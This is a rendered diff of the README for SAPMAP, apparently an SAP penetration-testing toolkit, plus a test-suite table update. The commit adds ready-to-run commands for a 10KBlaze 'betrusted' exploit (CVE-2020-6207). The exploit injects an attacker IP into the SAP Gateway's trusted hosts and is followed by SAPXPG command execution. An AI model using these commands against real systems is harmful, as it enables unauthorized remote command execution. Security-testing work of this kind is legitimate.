

Before and after one commit to SecuritySilverbacks/SAPMAP, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 95% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -537,6 +562,29 @@ Decrypted entries are categorised and colour-coded in the UI:
 
 Each standalone tool works independently with no external dependencies (Python 3 stdlib only).
 
+### sap_ms_betrusted.py
+
+10KBlaze betrusted exploit — register a fake application server with the SAP Message Server to inject the attacker's IP into the Gateway's trusted host list:
+
+```bash
+# Check if MS internal port is unprotected (CVE-2020-6207)
+python3 sap_ms_betrusted.py check-acl -t 192.168.1.100 -n 0
+
+# Run the betrusted attack (inject attacker IP as trusted)
+python3 sap_ms_betrusted.py exploit \
+    -t 192.168.1.100 -p 3901 -n 0 \
+    -a 192.168.2.210 \
+    --dp-version 14 -v
+
+# For older kernels (742): use dp-version 11
+python3 sap_ms_betrusted.py exploit \
+    -t 192.168.1.100 -p 3941 -n 40 \
+    -a 192.168.2.210 \
+    --dp-version 11 --old-kernel -v
+```
+
+After betrusted injects trust, use `sap_gw_xpg_standalone.py` to execute commands via the gateway. The betrusted connection must stay open while running SAPXPG (trust is revoked on disconnect).
+
 ### sap_gw_xpg_standalone.py
 
 Gateway SAPXPG command execution:
@@ -594,7 +642,7 @@ Separate from session state, these persist across sessions:
 
 ## Testing
 
-SAPMAP includes a unit test suite (62 tests) that validates core logic without network access:
+SAPMAP includes a unit test suite (405 tests) that validates core logic without network access:
 
 ```bash
 python3 -m pytest tests/ -v
@@ -602,11 +650,15 @@ python3 -m pytest tests/ -v
 
 | Test File | Tests | Coverage |
 |-----------|-------|----------|
+| `test_ms_betrusted.py` | 114 | MS header build/parse, LOGIN/LOGOUT/MOD_STATE, ADM records, DP info, NILIST reply, opcode parsing |
+| `test_10kblaze.py` | 42 | P1 lu_name fix, app-server name derivation, DP versions, NILIST IP reply, hostname extraction |
+| `test_10kblaze_extended.py` | 57 | MS_CHANGE_IP, MS_SET_LOGON, GWMON reply, old NILIST body, NI framing, GW sub-structures |
 | `test_secstore_decrypt.py` | 25 | RSECTAB decryption, keyprime derivation, IDENT categorisation, SSFS key extraction |
 | `test_rsec_cipher.py` | 11 | RSECCipher encode/decode roundtrip, rsec_decrypt, rsec_decrypt_key |
+| `test_gw_protocol.py` | 12 | P1/P2 packet building, parse_response, hexdump, TLV encoding, SAPRFXPG |
 | `test_models.py` | 9 | Data model serialization, risk_level, best_credentials, state management |
-| `test_gw_protocol.py` | 9 | P1/P2 packet building, parse_response, hexdump, TLV encoding |
 | `test_config.py` | 8 | Username generation, DB type normalization, SQL generators |
+| Other tests | ~127 | Router, shell, scanner configuration |
 
 ---
 
````
Also changed, not shown: other parts of README.md (+31 -6 lines).
